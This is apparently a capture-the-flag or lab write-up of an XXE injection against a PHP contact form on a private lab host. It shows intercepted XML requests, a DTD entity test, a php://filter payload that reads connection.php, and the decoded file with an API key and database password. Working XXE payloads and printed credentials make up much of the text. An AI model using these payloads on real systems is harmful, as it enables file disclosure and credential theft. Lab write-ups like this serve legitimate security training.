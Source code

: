 # Exploiting XXE to Extract Sensitive Information – `connection.php`

### Target: `http://10.129.64.249/index.php`
Vulnerability Type: XML External Entity (XXE) Injection
Objective: Read the contents of connection.php and extract the api_key.

## 1. Initial Discovery
The provided contact form is 
![image](https://github.com/user-attachments/assets/0d43c1bb-78e3-4026-bbe5-879a31fd237d)

After submitting data via the Contact Form, I intercepted the request using Burp Suite and observed the following:
```bash
POST /submitDetails.php HTTP/1.1
Host: 10.129.64.249
Content-Type: text/plain;charset=UTF-8

<?xml version="1.0" encoding="UTF-8"?>
<root>
  <name>Manoj</name>
  <tel>0411639525</tel>
  <email>themanojgh@gmail.com</email>
  <message>thank you</message>
</root>
```
The request body is in XML format, making it a potential target for XXE. Notably, the value inside the `<email>` tag is reflected in the server's HTTP response, which makes it a suitable injection point for XXE payloads.

## 2. XXE Payload Test
To test for XXE, I inserted an XML DTD and referenced an entity inside the `<email>` field:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company "Inlane Freight">
]>
<root>
  <name>Manoj</name>
  <tel>0411639525</tel>
  <email>&company;</email>
  <message>thank you</message>
</root>
```
The response echoed back Inlane Freight, confirming that the server parses and expands external XML entities — the application is vulnerable to XXE injection.
![Screenshot 2025-04-24 130856](https://github.com/user-attachments/assets/38c3fd89-e079-45f8-bd7e-9537b17d981e)


## 3. Exploiting XXE for File Disclosure
Using the confirmed vulnerability, I crafted a payload to read the contents of the connection.php file using the `php://filter` wrapper to `base64-encode` the file output:
```bash
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
<root>
  <name>Manoj</name>
  <tel>0411639525</tel>
  <email>&company;</email>
  <message>thank you</message>
</root>
```
![Screenshot 2025-04-24 131619](https://github.com/user-attachments/assets/2a4254f9-07c4-48c4-90d6-e739c53182d9)

The server responded with the base64-encoded contents of the connection.php file.

## 4. Decoding the Output
The output from the server was:
```bash
PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K
```
Decoded using `base64`, the PHP source revealed:

```bash
<?php

$api_key = "UTM1NjM0MmRjJ2dmcTIZND0wMXJnZXdmc2RmCg";

try {
  $conn = pg_connect("host=localhost port=5432 dbname=users user=postgres password=iUer^vd(e1Pl9)");
}

catch (exception $e) {
  echo $e->getMessage();
}

?>
```
## ✅ Extracted API Key:

UTM1NjM0MmRjJ2dmcTIZND0wMXJnZXdmc2RmCg

## Conclusion
This test demonstrated a classic XXE (XML External Entity) vulnerability in the contact form of the web application. The lack of input validation and the use of outdated XML parsers allowed the injection of external entities, leading to local file disclosure and the extraction of sensitive credentials from server-side configuration files.
